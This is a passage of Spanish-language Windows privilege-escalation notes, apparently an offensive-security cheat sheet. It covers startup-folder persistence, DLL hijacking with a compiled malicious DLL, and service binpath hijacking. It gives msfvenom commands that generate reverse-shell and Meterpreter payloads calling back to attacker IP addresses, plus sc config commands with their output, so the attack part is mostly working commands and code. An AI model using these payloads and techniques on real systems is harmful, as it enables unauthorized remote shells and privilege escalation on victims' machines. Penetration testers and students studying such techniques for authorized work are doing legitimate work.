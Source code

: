 ```bash
msfvenom -p windows/shell_reverse_tcp lhost=10.18.12.69 lport=1234 -f exe -o payload.exe
```

Colocar `payload.exe` en `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup` y esperar el logueo del administrador o reinicio.

### DLL Hijacking

Requisitos:

- Se requiere encontrar un proceso que ejecute con otros privilegios (movimiento lateral) al cuál le falte una dll.
- Tener permisos de escritura en un folder donde será buscada la dll (probablemente el directorio del ejecutable u otro dentro del path del sistema).

WinPEAS verificará si se cuenta con permisos de escritura en algún folder que esté en `PATH` del sistema. Otras herramientas como `Powersploit` pueden identificar las vulnerabilidades con las funciones `Find-ProcessDLLHijack`, `Find-PathDLLHijack` and `Write-HijackDll`.

![Folder con escritura para DLL Hijacking](images/dll_hijacking.png)

Se genera una dll y se ubica esta en el folder identificado usando el formato de metasploit: 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```

O una compilada:

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

### Service Permissions (Paths)

#### Binary Paths

WinPEAS puede identificar permisos de modificación en servicios.

![ChangeConfig en WinPEAS](images/bin_path.png)

Una vez identificado se puede cambiar y verificar con:

```powershell
# Cambio de valor de binpath
C:\Users\user>sc config daclsvc binpath= "c:\temp\exp.exe"
sc config daclsvc binpath= "c:\temp\exp.exe"
[SC] ChangeServiceConfig SUCCESS

# Validación de cambio
C:\Users\user>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
```